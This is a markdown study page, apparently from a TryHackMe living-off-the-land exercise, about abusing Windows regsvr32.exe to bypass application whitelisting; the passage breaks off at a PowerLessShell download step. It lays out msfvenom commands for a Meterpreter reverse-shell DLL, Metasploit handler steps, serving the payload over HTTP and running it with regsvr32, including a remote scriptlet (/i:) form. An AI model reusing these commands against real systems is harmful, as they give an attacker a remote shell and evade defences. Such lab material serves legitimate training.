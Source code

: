 ## Table of Contents

- [Regsvr32 #regsvr32](#regsvr32\#regsvr32)

#LoL 
#LivingOffTheLand 
#windows 
#regsvr32
# Regsvr32 #regsvr32 

Regsvr32 is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs)  in the Windows Registry. The regsvr.exe binary is located at:
```powershell
C:\Windows\System32\regsvr32.exe for the Windows 32 bits version
C:\Windows\SysWOW64\regsvr32.exe for the Windows 64 bits version
```
	regsvr32.exe binary can be used to execute binarie and bypass the windows application whitelisting. 
	Uses Windows trusted Components to run commands.


1. Create Metasploit DLL using `msfvenom`
	`msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll`
2. `msfconsole -q`
3. `use exploit/multi/handler`
4. `set payload windows/meterpreter/reverse_tcp`
5. `set LHOST ATTACK_BOX_IP`
6. `SET_LPORT`


Note that we specified the output type as DLL using the-f argument. Once the malicious DLL file is generated, we need to deliver the payload to the victim machine. We will do this by using a webserver to serve the DLL file on our attacking machine as follows,

Terminal

```shell-session
user@machine$ python3 -m http.server 1337
```

From the victim machine, visit the webserver of the attacking machine on port 1337 that we specify. Note that this port can be changed with your choice!

On the victim machine, once the file DLL file is downloaded, we execute it using regsvr32.exe  as follows,

Command Prompt

```shell-session
C:\Users\thm> c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll
or
C:\Users\thm> c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
```

With the second option, which is a more advanced command, we instruct the regsvr32.exe to run:

- /s: in silent mode (without showing messages)
- /n: to not call the DLL register server
- /i:: to use another server since we used /n
- /u: to run with unregister method


To use the shortcut modification technique, we can set the target section to execute files using:

- Rundll32
- Powershell
- Regsvr32
- Executable on disk

The attached figure shows an example of a shortcut modification technique, where the attacker modified the Excel target section to execute a binary using rundll32.exe. We choose to execute a calculator instead of running the Excel application. Once the victim clicks on the Excel shortcut icon, the calc.exe is executed. For more information about shortcut modification, you may check [this](https://github.com/theonlykernel/atomic-red-team/blob/master/atomics/T1023/T1023.md) GitHub repo.

No PowerShell!

In 2019, Red Canary published a threat detection report stating that PowerShell is the most used technique for malicious activities. Therefore, Organizations started to monitor or block powershell.exe from being executed. As a result, adversaries find other ways to run PowerShell code without spawning it.![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/239e633cdb273be86d1077949539cb38.png)

PowerLessShell is a Python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild), a platform for building Windows applications, to execute remote code.

First, let's download a copy of the project from the GitHub repo onto the AttackBox: